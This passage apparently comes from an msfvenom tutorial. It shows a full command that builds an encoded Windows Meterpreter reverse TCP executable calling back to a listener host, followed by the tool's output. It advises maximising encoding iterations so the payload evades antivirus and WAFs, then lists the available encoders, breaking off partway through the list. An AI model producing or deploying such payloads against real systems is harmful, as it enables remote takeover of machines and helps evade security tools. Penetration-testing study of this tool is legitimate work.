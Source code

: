 $ msfvenom --platform Windows -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=10.10.10.10 LPORT=4545 -f exe > encoded_shell.exe  
  
[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 368 (iteration=0)  
x86/shikata_ga_nai succeeded with size 395 (iteration=1)  
x86/shikata_ga_nai succeeded with size 422 (iteration=2)  
x86/shikata_ga_nai succeeded with size 449 (iteration=3)  
x86/shikata_ga_nai succeeded with size 476 (iteration=4)  
x86/shikata_ga_nai chosen with final size 476  
Payload size: 476 bytes  
Final size of exe file: 73802 bytes  
Here -i flag is used to specifying the number of iterations. Use max possible numbers to make the payload undetectable to antivirus software(AV) and WAFs.  
  
List all the Encoder types  
You can list all the encoder types available in msfvenom using –list flag with encoders option.  
  
$ msfvenom --list encoders  
  
Framework Encoders [--encoder ]  
======================================  
  
    Name                          Rank       Description  
    ----                          ----       -----------  
    cmd/brace                     low        Bash Brace Expansion Command Encoder  
    cmd/echo                      good       Echo Command Encoder  
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder  
    cmd/ifs                       low        Bourne ${IFS} Substitution Command Encoder  
    cmd/perl                      normal     Perl Command Encoder  
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder  
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder  
    generic/eicar                 manual     The EICAR Encoder  
    generic/none                  normal     The "none" Encoder  
    mipsbe/byte_xori              normal     Byte XORi Encoder  
    mipsbe/longxor                normal     XOR Encoder  
    mipsle/byte_xori              normal     Byte XORi Encoder  
    mipsle/longxor                normal     XOR Encoder  
    php/base64                    great      PHP Base64 Encoder  
    ppc/longxor                   normal     PPC LongXOR Encoder  
    ppc/longxor_tag               normal     PPC LongXOR Encoder  
    ruby/base64                   great      Ruby Base64 Encoder  
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder  
    x64/xor                       normal     XOR Encoder  
    x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder  
    x64/xor_dynamic               normal     Dynamic key XOR Encoder  
    x64/zutto_dekiru              manual     Zutto Dekiru  
    x86/add_sub                   manual     Add/Sub Encoder  
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder  
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder  
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower  
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower  
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder  
    x86/bmp_polyglot              manual     BMP Polyglot  
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder  
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder  
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder  
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder  
    x86/countdown                 normal     Single-byte XOR Countdown Encoder  
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder  
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder  
    x86/nonalpha                  low        Non-Alpha Encoder  
    x86/nonupper                  low        Non-Upper Encoder  
    x86/opt_sub                   manual     Sub Encoder (optimised)  